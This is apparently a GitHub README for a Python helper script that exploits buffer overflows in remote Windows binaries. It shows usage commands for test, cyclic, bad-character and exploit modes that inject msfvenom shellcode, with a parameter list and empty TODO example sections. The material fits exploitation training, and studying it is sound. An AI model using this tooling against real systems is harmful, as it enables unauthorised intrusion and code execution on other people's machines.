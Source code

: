# Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=after --exclude=000a
 ./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=before --exclude=000a --reversejmp=800
```

exploit - Sends malicious payload via buffer overflow
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --reversejmp=800 --shellcode=payload --nops=10
```

## Parameters:
* -h|--help	: Show script usage.
* -n|--norec	: Don't wait for receive message after connect.
* -m|--mode	: Script mode (test|cyclic|write|exploit).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --badchar	: Adds bad chars before (before) or after (after) the content. Used for bad char testing.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --reversejmp	: Size in bytes to jump before the content to inject bad chars or the shell code.
* --shellcode	: Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python -v payload EXITFUNC=thread -o payload
* --nops		: Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
